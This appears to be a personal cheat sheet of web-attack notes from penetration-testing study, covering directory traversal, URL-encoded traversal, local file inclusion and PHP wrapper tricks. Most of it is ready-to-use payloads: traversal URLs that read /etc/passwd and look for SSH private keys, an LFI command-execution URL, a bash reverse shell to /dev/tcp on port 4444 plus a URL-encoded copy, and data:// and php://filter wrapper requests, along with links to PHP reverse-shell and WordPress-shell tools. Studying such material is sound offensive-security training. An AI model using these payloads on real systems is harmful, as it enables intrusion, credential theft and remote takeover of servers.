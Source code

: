 
# Web Attacks

<aside>
💡 Cross-platform PHP revershell: [https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php](https://github.com/ivan-sincek/php-reverse-shell/blob/master/src/reverse/php_reverse_shell.php)

</aside>

## Directory Traversal

```powershell
cat /etc/passwd #displaying content through absolute path
cat ../../../etc/passwd #relative path

# if the pwd is /var/log/ then in order to view the /etc/passwd it will be like this
cat ../../etc/passwd

#In web int should be exploited like this, find a parameters and test it out
http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd
#check for id_rsa, id_ecdsa
#If the output is not getting formatted properly then,
curl http://mountaindesserts.com/meteor/index.php?page=../../../../../../../../../etc/passwd 

#For windows
http://192.168.221.193:3000/public/plugins/alertlist/../../../../../../../../Users/install.txt #no need to provide drive
```

- URL Encoding

```powershell
#Sometimes it doesn't show if we try path, then we need to encode them
curl http://192.168.50.16/cgi-bin/%2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd
```

- Wordpress
    - Simple exploit: https://github.com/leonjza/wordpress-shell

## Local File Inclusion

- Main difference between Directory traversal and this attack is, here we’re able to execute commands remotely.

```powershell
#At first we need 
http://192.168.45.125/index.php?page=../../../../../../../../../var/log/apache2/access.log&cmd=whoami #we're passing a command here

#Reverse shells
bash -c "bash -i >& /dev/tcp/192.168.119.3/4444 0>&1"
#We can simply pass a reverse shell to the cmd parameter and obtain reverse-shell
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F192.168.119.3%2F4444%200%3E%261%22 #encoded version of above reverse-shell

#PHP wrapper
curl "http://mountaindesserts.com/meteor/index.php?page=data://text/plain,<?php%20echo%20system('uname%20-a');?>" 
curl http://mountaindesserts.com/meteor/index.php?page=php://filter/convert.base64-encode/resource=/var/www/html/backup.php 
```

